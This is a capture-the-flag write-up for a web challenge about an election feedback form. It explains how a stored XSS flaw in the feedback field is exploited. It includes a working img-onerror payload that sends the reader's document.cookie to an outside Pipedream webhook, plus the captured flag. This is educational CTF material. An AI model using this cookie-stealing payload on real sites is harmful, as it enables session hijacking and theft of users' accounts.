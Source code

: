 ```yaml
---
layout: writeup
title: Trusted Clerk
tags: WebX
---
```


## Description

The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience.

“Your voice matters twice - once for your candidate, and once for your country.”

<!--more-->

http://redac.ted:9002/


## Solution

The link takes you to a pretty small website with a `Home` page, `About` page, `Contact` page, and a `Vote` page. The `Vote` page looks the most promosing as it has a form on it that sends a request to the backend server.

![Photo of the `Vote` page which shows the form with its fields of `candidate` and `feedback`](/assets/images/writeups_images/Trusted-Clerk/1.png)

This form seems to send back the two data points `candidate` and `feedback`

This is likely the feedback that the description hints at, and the description hints that the feedback will be read at somepoint.

This seems like a pretty basic XSS attack. We send the service feedback that contains malicous code that swipes their cookies.

For something like this I suggest using [Pipedream](pipedream.com). This service allows you to create `web hooks` in your workflows that you can then query, and see all traffic towards them. It helps in situations like this, when you need to have the client send their cookies remotely to your pipedream `webhook`

So time to create a payload. I went with the pretty standard image on error load approach.

```html
<img src="e" onerror="window.location.href = 'https://eo6fu53ufvqhqft.m.pipedream.net/' + document.cookie;">
```

If you are attempting to do this yourself, you will need to change the url to the url of your workflow, as this one was associated with my individual workflow.

So just inputing the payload into the `feedback` section of the form and waiting a few minutes returns this in my workflow request history:

![Photo of my pipedream workflow request history showing the request with the flag in it](/assets/images/writeups_images/Trusted-Clerk/2.png)

The exact link this goes to is

```text
https://eo6fu53ufvqhqft.m.pipedream.net/flag=secedu%7Bspr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3%7D
```

As you can see this has the cookie called `flag`, the value of this `flag` cookie is the flag for the challenge in URL encoding. So the flag is `secedu{spr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3}`
